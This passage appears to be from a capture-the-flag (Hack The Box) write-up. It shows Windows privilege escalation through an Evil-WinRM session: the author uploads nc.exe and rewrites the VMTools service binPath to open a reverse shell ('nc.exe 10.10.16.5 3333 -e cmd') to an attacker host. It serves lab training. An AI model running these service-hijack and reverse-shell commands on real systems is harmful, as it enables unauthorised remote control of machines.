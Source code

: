 ```powershell
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc  
```
As `svc-printer` we are able to stop any of these services, but we can also try to create a new service:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe create test binPath="wmpnetwk.exe"
[SC] OpenSCManager FAILED 5:

Access is denied.
```
Access denied, so we cannot create new processes, but we can try to modfiy the `binPath` of any running service:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
[SC] ChangeServiceConfig SUCCESS
```
Acesss granted for changing, now we need to establish a reverse shell into that `binPath`. To do so, we need to upload a `nc.exe` binary to the machine, can obtain it from `seclists package`:
```bash
❯ locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
❯ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe ~/HTB/Tools/
```
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/r3van/HTB/Tools/nc.exe .
Info: Uploading /home/r3van/HTB/Tools/nc.exe to .

                                                             
Data: 37544 bytes of 37544 bytes copied

Info: Upload successful!
```
And now we have the binary `nc.exe` located at `C:\Users\svc-printer\Documents\nc.exe` and we can try to assign it to binPath:
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe 10.10.16.5 3333 -e cmd"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VMTools 

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VMTools
```
And if we listen on port 3333, we can establish a reverse shell:
```bash
```